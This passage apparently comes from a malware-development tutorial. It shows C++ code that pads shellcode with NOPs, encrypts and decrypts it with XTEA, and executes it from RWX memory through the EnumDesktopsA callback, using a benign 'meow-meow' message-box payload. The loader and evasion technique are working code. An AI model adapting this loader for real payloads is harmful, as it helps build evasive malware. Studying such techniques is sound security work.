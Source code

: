 ```cpp
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  int len = sizeof(my_payload);
  int pad_len = (len + 8 - (len % 8)) & 0xFFF8;

  unsigned int *padded = (unsigned int *)malloc(pad_len);
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, len);

  // encrypt the padded shellcode
  for (int i = 0; i < pad_len / sizeof(unsigned int); i += 2) {
    xtea_encrypt(&padded[i], key);
  }

  printf("encrypted:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("\\x%02x", ((unsigned char *)padded)[i]);
  }
  printf("\n\n");

  // decrypt the padded shellcode
  for (int i = 0; i < pad_len / sizeof(unsigned int); i += 2) {
    xtea_decrypt(&padded[i], key);
  }

  printf("decrypted:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("\\x%02x", ((unsigned char *)padded)[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(padded), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, pad_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);

  free(padded);
  return 0;
}
```

As you can see, first of all, before encrypting, we use padding via the NOP (`\x90`) instructions. For this example, use the `meow-meow` messagebox payload as usual.     
